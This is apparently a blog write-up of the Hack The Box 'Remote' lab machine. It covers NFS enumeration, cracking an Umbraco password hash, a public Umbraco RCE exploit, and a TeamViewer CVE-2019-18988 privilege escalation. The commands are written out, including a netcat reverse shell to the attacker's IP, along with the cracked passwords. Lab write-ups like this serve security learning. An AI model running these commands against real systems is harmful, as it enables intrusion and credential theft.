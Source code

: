 ```yaml
---
title: HTB-Remote
draft: false
tags:
  - htb
  - windows
  - easy
  - nfs
  - umbraco
  - teamviewer
  - tasklist
  - aes
  - cve-2019-18988
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/Remote.png)

## Information Gathering
## Rustscan

Rustscan finds many ports open. NFS running on port 2049 stands out because it is not normal. 

`rustscan --addresses 10.10.10.180 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-5.png)

## Enumeration
### SMB - TCP 445

Crackmapexec reveals the domain **remote** which we add to `/etc/hosts` file. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-1.png)

Unfortunately, null login is not allowed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-2.png)

### FTP - TCP 21

Anonymous login is allowed but nothing is in the share:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-3.png)

### NFS - TCP 2049

Using `showmount -e remote`, we can list shares on nfs:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-6.png)

Let's mount the share to our local side:

`sudo mount -t nfs -o vers=3,nolock remote:/site_backups /home/yoon/Documents/htb/remote/nfs`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-7.png)

## Shell as IIS
### NFS Password Retrieval

Inside mounted nfs share, App_Data share looks interesting. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-8.png)

Umbraco.sdf could be read with strings command and it reveals a lot of information:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-10.png)

We can assume user `admin@htb.local` and `smith@htb.local` exists on the website and sha-1 encoded password hash is also shown. 

Let's crack the password hash using hashcat:

`hashcat -m 100 b8be16afba8c314ad33d812f22a04991b90e2aaa ~/Downloads/rockyou.txt --show`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/remote-h.png)

Password was to cracked to be **baconandcheese**. 

We should be able to use this password somewhere else as admin or smith.

### Umbraco RCE

Now let's move on to enumerating HTTP.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-4.png)

Exploring around the website, we discovered login portal for the dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-9.png)

Using the password cracked earlier as `admin@htb.local`, we can sign in to dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-11.png)

So the website seems to be running **Umbraco** and doing some researched on it revealed that certain versions are vulnerable to [Authenticated RCE](https://github.com/Jonoans/Umbraco-RCE/tree/master). 

Running the exploit found from [here](https://github.com/Jonoans/Umbraco-RCE/tree/master), we now have a interactive shell:

`python3 umbraco_rce.py -u admin@htb.local -p baconandcheese -w 'http://10.10.10.180/' -i 10.10.14.36`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-12.png)

However, this shell seems to be some what broken. It wouldn't show output to certain commands:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-13.png)

Using smbserver, we will copy nc.exe to the target:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-14.png)

By spawning a second shell inside the first shell, now we have fully interactive shell environment:

`./nc.exe 10.10.14.36 1337 -e cmd`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-15.png)



## Privesc: IIS to Administrator
### TeamViewer

`tasklist` command shows the services running on the system and **TemViewer** stands out:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-16.png)

Inside `Program Files (x86)`, we can access TeamViewer:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-17.png)

It seems to be running as Version7:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-18.png)

### CVE-2019-18988

Through some googling on TeamViewer version 7, we discovered CVE-2019-18988:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-19.png)

Upon uploading and running [this bat file](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat), we can rerieve SecurityPasswordAES in plain text:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-20.png)

By running the discovered AES value through [this Python script](https://github.com/reversebrain/CVE-2019-18988/blob/master/CVE-2019-18988.py), we can crack the password: **!R3m0te!**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-21.png)

Trying the cracked password as the administrator, it worked:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/remote/image-22.png)

## References
- https://github.com/Jonoans/Umbraco-RCE/tree/master
- https://github.com/reversebrain/CVE-2019-18988/blob/master/CVE-2019-18988.py
- https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat
